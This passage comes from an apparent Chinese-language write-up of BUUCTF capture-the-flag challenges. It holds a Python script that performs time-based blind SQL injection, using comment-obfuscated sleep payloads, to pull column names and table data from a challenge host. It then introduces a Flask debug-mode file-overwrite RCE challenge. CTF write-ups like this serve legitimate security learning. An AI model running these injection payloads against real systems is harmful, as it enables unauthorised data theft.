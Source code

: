 ```python
    for char in chars:
        charAscii = ord(char) #char转换为ascii
        url = "http://aa747dea-4776-4d4f-9c3f-6846c5f580aa.node4.buuoj.cn:81/?id=1/**/and/**/if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like('items')),{0},1))>{1},1,sleep(3))#"
        urlformat = url.format(i,charAscii)
        start_time = time.time()
        requests.get(urlformat)
        if  time.time() - start_time > 2:
            column+=char
            print('column第{}个字符：{}'.format(i, column))
            break
        else:
            pass
print('column： ' + column)


#爆数据
for i in range(1,80):
    for char in chars:
        charAscii = ord(char) #char转换为ascii
        url = "http://aa747dea-4776-4d4f-9c3f-6846c5f580aa.node4.buuoj.cn:81/?id=1/**/and/**/if(ascii(substr((select/**/group_concat(id,name,price)/**/from/**/items),{0},1))>{1},1,sleep(3))#"
        urlformat = url.format(i,charAscii)
        start_time = time.time()
        requests.get(urlformat)
        if  time.time() - start_time > 2:
            flag+=char
            print('flag第{}个字符：{}'.format(i, flag))
            break
        else:
            pass
print('flag： ' + flag)
```

### flask disk（flask debug模式，上传app.py文件覆盖原文件，RCE）

打开题目，有三个链接
 ![在这里插入图片描述](assets/df6f9bfd3f0b4b5fb66c9901a19c266e.png)分别是查看文件，上传文件，输入pin码进入`admin manage`
